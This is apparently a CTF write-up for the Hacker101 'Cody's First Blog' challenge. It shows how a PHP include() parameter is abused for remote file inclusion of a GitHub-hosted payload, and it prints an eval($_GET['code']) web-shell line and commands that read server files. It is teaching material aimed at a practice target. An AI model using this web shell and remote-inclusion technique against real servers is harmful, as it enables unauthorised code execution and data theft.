




# Cody's First Blog

First thing we see:



And the source

```html
<!doctype html>
<html>
	<head>
		<title>Home -- Cody's First Blog</title>
	</head>
	<body>
		<h1>Home</h1>
		<p>Welcome to my blog!  I'm excited to share my thoughts with the world.  I have many important and controversial positions, which I hope to get across here.</p>

	<h2>September 1, 2018 -- First</h2>
	<p>First post!  I built this blog engine around one basic concept: PHP doesn't need a template language because it <i>is</i> a template language.  This server can't talk to the outside world and nobody but me can upload files, so there's no risk in just using include().</p>
<p>Stick around for a while and comment as much as you want; all thoughts are welcome!</p>


		<br>
		<br>
		<hr>
		<h3>Comments</h3>
		<!--<a href="?page=admin.auth.inc">Admin login</a>-->
		<h4>Add comment:</h4>
		<form method="POST">
			<textarea rows="4" cols="60" name="body"></textarea><br>
			<input type="submit" value="Submit">
		</form>
	</body>
</html>
```

The network tab doesn't show much. The response headers for the landing page are interesting though:

```
HTTP/2 200 OK
date: Mon, 28 Mar 2022 13:29:12 GMT
content-type: text/html
content-length: 586
server: openresty/1.19.9.1
x-powered-by: PHP/5.5.9-1ubuntu4.24
vary: Accept-Encoding
content-encoding: gzip
X-Firefox-Spdy: h2
```

---

## Flag 0 - PHP is still relevant you guys! I swear!


### Accessing the situation:

Let's see the hints:

```markdown
* What was the first input you saw?
```

The rest of the hints will be available in a little while. Hacker101 thinks I am spamming them. To be fair, yes I am spamming them because I don't trust you hacker101!

Immediately before doing anything, my first though when seeing php is to somehow insert this line of code somewhere in the website:

```php
<?php $code = $_GET['code'];
eval($code); ?>
```

to achieve basically a [reverse shell](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/) and be able to remotely control the server.

I will keep this at the back of my mind and see if we can use it later.

Anyway, let's continue.

Looking at the source code we see a very interesting comment. This is obviously left there on purpose and it is obviously a honeypot. I will completely ignore it.............. That is what a sensible person would say, but this CTF is to teach the really simple stuff, so let's go to `?page=admin.auth.inc`:



```html
<!doctype html>
<html>
	<head>
		<title>Admin Login -- Cody's First Blog</title>
	</head>
	<body>
		<h1>Admin Login</h1>
		<form method="POST">
	Username: <input type="text" name="username"><br>
	Password: <input type="password" name="password"><br>
	<input type="submit" value="Log In"><br>
	</form>
		<br>
		<br>
		<hr>
		<h3>Comments</h3>
		<!--<a href="?page=admin.auth.inc">Admin login</a>-->
		<h4>Add comment:</h4>
		<form method="POST">
			<textarea rows="4" cols="60" name="body"></textarea><br>
			<input type="submit" value="Submit">
		</form>
	</body>
</html>
```

Thankfully the comments are still here. Which means that if we manage to write a comment that executes a payload it will probably work on the admin page too.

Putting a random username and password shows us the red message `Incorrect username or password`.

Let's write a comment. But not any comment. An html comment! This html comment for starters: `<h1>Hello Cody!!!</h1>`

`Comment submitted and awaiting approval` What? Oh come on! Come on Cody! Don't you trust me? Grrrr....

We've seen enough of the adin page, back to the main page.

`This server can't talk to the outside world and nobody but me can upload files, so there's no risk in just using include()`

This [here](https://www.php.net/manual/en/function.include.php) explains what `include()` does. Its usage can be summed up to "it loads a .php file and runs it".

So the plan seems to be to upload a custom php file and make it be included. Cody says that only him can upload a file though... Oh, what will we do now!

We will get back to the admin login page and start spamming it to see what happens!

*Some spamming and experimentation later*

The `?page=admin.auth.inc` is actually `index.php?page=admin.auth.inc`. And the variable `page` can have any value. For example it can have `test`. We see that an error message appears:

```
Notice: Undefined variable: title in /app/index.php on line 30

Warning: include(test.php): failed to open stream: No such file or directory in /app/index.php on line 21

Warning: include(): Failed opening 'test.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /app/index.php on line 21
```

And we have found the way to execute our code. Whatever value we put in `page` it gets put in an `include(_value_.php)` command. Can we escape out of this `include()` command? For example by passing the value `); echo 'hello';?>//`

```
Warning: include(); echo 'hello'; ?>//.php): failed to open stream: No such file or directory in /app/index.php on line 21
```

Ok, no, we can't. Or I am doing something wrong.

I realised that we know a file that exists on the server, `index.php`! This is going to be fun because `index.php` is going to include itself!

With `/index.php?page=index` got the response: `Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 16384 bytes) in /app/index.php on line 20`

`134217728 bytes` is 128 Mb worth of memory. These challenges are running with the bare minimum resources, aren't they?


I thought of sending this: `?page=http://localhost/index`. It loads the main page of course. But it still is funny!

I learned that `php.ini` is a thing! We can see it if we go to `/php.ini` and we can browse its [contents](./helpfull_files/php.ini)!

On it we see the memory limit we encountered before:
```ini
; Maximum amount of memory a script may consume (128MB)
; http://php.net/memory-limit
memory_limit = 128M
```
And these interesting settings:
```ini
allow_url_fopen = On
allow_url_include = On
```

Which should allow `include()` to access external files. But I can't manage to make it work for some reason! It shows no error. Maybe include() can't open https sites? I don't know.


I did it! I actually did it! I have full control of the system! Ok, not full full, but full enough!

I have [uploaded a php file](./helpfull_files/payload.php) which I control the contents of. The problem is that `include()`, for some reason, doesn't work with `https`. Whatever, not a huge problem, I can deal with it.

After some errors and a few tries, I now have this:



Let's try to find the flags now.

One flag is shown when running `cat index.php`

Another when clicking on `View page source` to actually see the text in `index.php`. It a comment a few lines down. I could actually fix that in my payload to not render any html it finds in the files... It doesn't matter now.

I remembered from the previous challenge that the environment variables could hold the flag. Let's check with `echo $(printenv)`:



Hahahaha! They aren't on this one! Ok, I will keep looking!

We saw that there is a file called `admin.inc.php` open it by going to `/index.php?page=admin.inc`. Boom another flag.

I don't know why it is not possible to see the flag when doing `cat admin.inc.php`...


Anyway, another challenge down!


### Notes:
* What I used to host the payload was github. I made a public repo that contains this php file. Then I just copy the link to the raw contents of the file and convert `https` to `http`. Of course, I had to remove the extension `.php` because cody's code adds it automatically.
